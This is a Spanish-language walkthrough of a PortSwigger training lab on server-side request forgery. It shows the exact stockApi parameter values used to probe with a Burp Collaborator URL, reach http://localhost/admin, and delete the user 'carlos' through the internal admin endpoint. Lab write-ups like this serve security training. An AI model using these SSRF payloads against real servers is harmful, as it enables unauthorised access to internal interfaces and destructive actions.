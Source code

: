 ```yaml
---
title: "Basic SSRF against the local server"
description: "Laboratorio de Portswigger sobre SSRF"
date: 2024-11-29 12:26:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger
  - SSRF
tags:
  - SSRF
  - Basic SSRF against the local server
image:
  path: /assets/img/Portswigger/Portswigger.png
---
```


## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este `laboratorio` tiene una `función` de `verificación` de `inventario` que `obtiene datos` de un `sistema interno`. Para `resolver` el `laboratorio`, hay que `cambiar` la `URL` de `verificación` del inventario para acceder a la `interfaz` de `administración` en `http://localhost/admin` y `eliminar` al usuario `carlos`

---

## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/SSRF-Lab-1/image_1.png)

Pulsamos en `View details` y vemos la `descripción` de `producto`

![](/assets/img/SSRF-Lab-1/image_2.png)

Pulsamos en `Check stock` y `capturamos` la `petición` con `Burpsuite`

![](/assets/img/SSRF-Lab-1/image_3.png)

Nos dirigimos a `Burpsuite Collaborator` hacemos `click` en `Copy to clipboard` y vemos que se está haciendo una `petición` a una `url` vamos a ver si nos llega a nosotros esa `petición`

```
stockApi=http://vut162sctta3s7iwbq796g3xkoqfe62v.oastify.com&storeId=1
```

Efectivamente nos llega una `petición`

![](/assets/img/SSRF-Lab-1/image_4.png)

Si nos ha `llegado` la `petición` a nosotros podríamos ver si también podemos `acceder` a `recursos internos` que tenga la `máquina víctima `

```
stockApi=http://localhost/admin&Id=1
```

Hacemos `click derecho` y `seleccionamos` cualquiera de estas opciones

![](/assets/img/SSRF-Lab-1/image_5.png)

Hemos `accedido` a un `panel administrativo`

![](/assets/img/SSRF-Lab-1/image_6.png)

`Pinchamos` en `Delete` para `eliminar` al usuario `carlos`, pero al hacerlo nos muestra este `mensaje`

![](/assets/img/SSRF-Lab-1/image_7.png)

Esto se debe a que estamos intentando hacerlo sin estar `logueados` como `administrador` en `https://0aec006504834756ea7f73f5009700d5.web-security-academy.net/admin/delete?username=carlos`. Como no tenemos el `usuario` y `contraseña` debemos hacerlo desde la `máquina víctima` y para ello `enviamos` esta `petición`

```
stockApi=http://localhost/admin/delete?username=carlos&Id=1
```
